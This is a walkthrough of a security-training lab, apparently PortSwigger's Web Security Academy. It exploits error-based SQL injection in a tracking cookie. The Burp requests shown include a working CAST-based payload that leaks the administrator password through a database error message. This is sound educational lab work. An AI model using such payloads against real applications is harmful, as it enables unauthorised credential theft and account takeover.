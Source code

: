 *This lab contains a SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned.
The database contains a different table called users, with columns called username and password. To solve the lab, find a way to leak the password for the administrator user, then log in to their account.*

Accessed the *My account* page and checked Burp HTTP History to check the request : 
```Burp 
GET /login HTTP/2
Host: 0aaa00f8034111d381c3437f004e0071.web-security-academy.net
Cookie: TrackingId=IO2vznEfZ4GGAstg; 
...
```
The response was the login page. 

I tested the application for SQLi by inserting a `'` in the cookie, as such: 
```Burp 
GET /login HTTP/2
Host: 0aaa00f8034111d381c3437f004e0071.web-security-academy.net
Cookie: TrackingId=IO2vznEfZ4GGAstg';
...
```
I received the following response: 
```Burp 
<h4>Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = 'IO2vznEfZ4GGAstg''. Expected  char</h4>
```
I then tried to see if i can obtain a visible error. Using `CAST()` i modified the query to the following : 
```Burp 
GET /login HTTP/2
Host: 0aaa00f8034111d381c3437f004e0071.web-security-academy.net
Cookie: TrackingId='||CAST((SELECT password FROM users LIMIT 1)AS int)--;
```
I removed the value of the cookie and used `limit 1` to bypass the character limit on the query, which will throw unexpected errors.

I received the following response: 
```Burp 
<p class=is-warning>ERROR: invalid input syntax for type integer: "tirdib4p6fzefsyevp93"</p>
```
I then logged in using the credentials : 
![Screenshot 2024-05-02 at 5.33.43 PM](images/Screenshot%202024-05-02%20at%205.33.43%20PM.png)


